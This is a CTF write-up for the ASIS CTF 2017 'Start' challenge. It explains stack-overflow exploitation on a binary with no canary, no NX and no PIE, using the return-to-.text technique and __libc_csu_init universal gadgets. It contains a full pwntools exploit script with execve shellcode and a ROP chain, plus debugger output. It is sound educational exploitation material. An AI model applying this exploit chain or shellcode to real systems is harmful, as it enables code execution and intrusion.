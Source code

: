 # Return to .text section / Universal gadgets
## Circumvent mitigation techniques cause of lacking ROP gadgets or libc addy

--------------------------------------------------------------------------------
### Return to .text section
For this post I will use a task called "Start" from ASIS CTF 2017 as an simple but in my opinion extremely useful example
For this task you will be provided with a service that just allows you to put in data to it. At first let's check for mitigation mechanisms as usual

```
checksec --file ./Start $
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So all the mechanisms all disabled...Back to the 90's ?
Let's take a look into the assembly code:

```
push rbp
mov rbp, rsp
sub rsp, 0x20
mov dword [rbp - 0x14], edi
mov qword [rbp - 0x20], rsi
lea rax, qword [rbp - 0x10]
mov edx, 0x400
mov rsi, rax
mov edi, 0
call sym.imp.read
mov eax, 0
leave
ret
```
Ok...reservation of 32 bytes after rbp for locals and it's storing our read input buffer on stack regardless of the string's length we provide.
It's a simple overflow bug with allows us to do a classical RIP overwrite.

But wait...There isn't any information leak returning us any stack or libc addy. And besides that the binary is extremely small, so we won't be lucky in searching for any gadgets that allow us to do any stack pivoting.
#### "Prepare for the worst..."
Luckily there is a technique called "return to text" which can bypass the lack of any good gadgets regardless if ASLR is enabled or not.
Cause that binary isn't compiled with PIE, .text and .bss sections won't be randomized. In short terms this technique works as follows:

1. Overwrite RIP by the address of any function that can read user supplied data (e.g. read, gets...called "A" below)
2. Set return address after "A"
3. Set argument of "A"
4. When running "A" will ask for input data
5. Inject shellcode
6. When "A" finishes it will directly jump to our shellcode

#### x86-64 syscalls
If the binary is compiled for amd64 architecture any arguments provided to a function call will be passed by registers.
First in rdi, second in rsi, third in rdx, then rcx, r8, r9 and so on. If other arguments have to pass, they will have been pushed on the stack. Syscall num is provided by rax (you can use a tool called "shellnoob" to bet syscall nums).

#### Lack of gadgets
If you open the binary in any ROP-finding toolset, you will just find a total of 62 gadgets. It seems not to be possible to use any meaningful combination to set all the registers.
One possibility for circumvent would be to check if we have any register pointing to a location within our input buffer.
And voilá...When ```main``` returns it doesn't clear the registers:

```
gdb ./Start $
Loaded 101 commands.  Type pwndbg [filter] for a list.
Reading symbols from ./Start...(no debugging symbols found)...done.
pwndbg> r < <(python -c 'print "A"*32')
Starting program: /home/felix/Dokumente/CTF/asisCTF_2017/Start/Start < <(python -c 'print "A"*32')

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400551 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────────────────────────────────────────────REGISTERS───────────────────────────────────────────────────]
 RAX  0x0
 RBX  0x0
*RCX  0x7ffff7b165a0 (__read_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x400
 RDI  0x0
*RSI  0x7fffffffe230 ◂— 'AAAAAAAAAAAAAAA...'
*R8   0x4005d0 ◂— ret
*R9   0x7ffff7de8a50 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x400430 ◂— xor    ebp, ebp
*R13  0x7fffffffe320 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe248 ◂— 'AAAAAAAA\n'
*RIP  0x400551 ◂— ret
```

#### Exploit
So we just have to put return addy to rsi and go on with a pop rsi gadget.
Payload will consist into rwo parts:

1. padding(24 bytes) + pop_rsi + read + ret addy + garbage + read_plt + ret addy
2. shellcode

```python
#!/usr/bin/env python

from pwn import *

r=process("./Start")
elf=ELF("./Start")
context.os="linux"
context.arch="amd64"
scode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
read=elf.symbols['read']
pop_rsi_r15=0x004005c1
bss = elf.bss() + 0x100


def overwrite():
    padding = "\x90"*24
    payload = flat([padding,pop_rsi_r15, bss, "aaaabbbb", read, bss])
    log.info("Read  @ 0x{:08X}".format(read))
    log.info("BSS  @ 0x{:08X}".format(bss))
    raw_input("[DEBUG]")
    r.sendline(payload)
    r.sendline(scode)
    r.interactive()

def main():
    overwrite()
if __name__=="__main__":
    main()
```

### Using universal gadgets

We could also take advantage by the use of so called "universal gadgets"

>Every program before run into ```main()``` will call ```__libc_csu_init()```
>This function contains some useful gadgets to support you when preparing registers for sysalls

```
0000000000400550 <.__libc_csu_init>:

[*snip*]

4005a0:       4c 89 ea                mov    rdx,r13
4005a3:       4c 89 f6                mov    rsi,r14
4005a6:       44 89 ff                mov    edi,r15d
4005a9:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]

[*snip*]

4005ba:       5b                      pop    rbx
4005bb:       5d                      pop    rbp
4005bc:       41 5c                   pop    r12
4005be:       41 5d                   pop    r13
4005c0:       41 5e                   pop    r14
4005c2:       41 5f                   pop    r15
4005c4:       c3                      ret
```

Last seven instructions will pop values to registers and then return. Main idea will be to call these instructions/gadgets and jump to the first four after all.
So the ROP chain will look like this:

Sequence 1:
| Instruction   | Expl                                                       |
| ------------- | ---------------------------------------------------------- |
| pop rbx       | this register must be zero (it will be explained later on) |
| pop rbp       | must be equal to one                                       |
| pop r12       | address of instruction address                             |
| pop r13       | how many bytes to read                                     |
| pop r14       | destination address of shellcode (e.g. .bss + 0x100)       |
| pop r15       | some garbage                                               |
| ret           | put naxt garbage address                                   |

2. Sequence 2:

| mov rdx,r13                   | set 3rd argument                                           |
| mov rsi,r14                   | set 2nd argument                                           |                                  
| mov edi,r15d                  | [1]                                                        |                                  
| call QWORD PTR [r12+rbx*8]    | [2]                                                        |
| add rbx, 1                      | [3]                                                      |
| cmp rbx, rbp                    | [3]                                                        |
| jne 0x40059                     | [3]                                                        |
| add rsp, 0x8                    | [4]                                                        |                                    
| pop rbx                         | put garbage                                                |
| pop rbp                         | put garbage                                                |
| pop r12                         | put garbage                                                |
| pop r13                         | put garbage                                                |
| pop r14                         | put garbage                                                |
| pop r15                         | put garbage                                                |
| ret                             | .bss + 0x100                                               |
